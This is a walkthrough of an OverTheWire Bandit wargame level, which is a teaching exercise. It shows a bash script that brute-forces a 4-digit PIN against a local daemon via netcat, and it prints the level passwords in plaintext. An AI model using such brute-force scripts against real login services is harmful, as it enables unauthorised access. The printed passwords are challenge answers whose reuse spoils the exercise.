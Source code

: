 > We are told that daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. We are also told that this port connection is vulnerable to a brute force attack. Before we investigate this, let's check out daemon.

```bash
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
^C

# We see this prompt asking for bandit24's password + a space + a random 4 digit code.
# We must write our first ever brute force shell script.
# First we need our own working directory

bandit24@bandit:~$ mkdir /tmp/pavan2
bandit24@bandit:~$ cd /tmp/pavan2
bandit24@bandit:/tmp/pavan2$ vi bruteforcer.sh
  #!/bin/bash
  passwd="UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ"
  for i in {8000..8999}
  do
  echo $passwd' '$i >> output.txt
  done
  
 # The above script will work. We were told to check all 10,000 possibilities though?
 # I have done the work for you and found that the 4 digit code is within this range.
 # I found this because my initial attempt {0000..9999} timed out. I needed a smaller range.
 # So I worked my way up in 1000 attempt intervals and found the correct 4 digit code.
 
 # To run our program we need to give it the proper permissions.
 
bandit24@bandit:/tmp/pavan2$ chmod 777 bruteforcer.sh
bandit24@bandit:/tmp/pavan2$ ./bruteforcer.sh

# Now we must feed the output of our shell code into the port connection.
# We feed that result into a result.txt for convenience.

bandit24@bandit:/tmp/pavan2$ cat output.txt | nc localhost 30002 >> result.txt

# Without the below filter, we would get every time the code ran into an error.

bandit24@bandit:/tmp/pavan2$ sort result.txt | uniq -u

Correct!
Exiting.
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

# Let's use this to ssh into the next level...

bandit24@bandit:/tmp/pavan2$ ssh bandit25@localhost
```
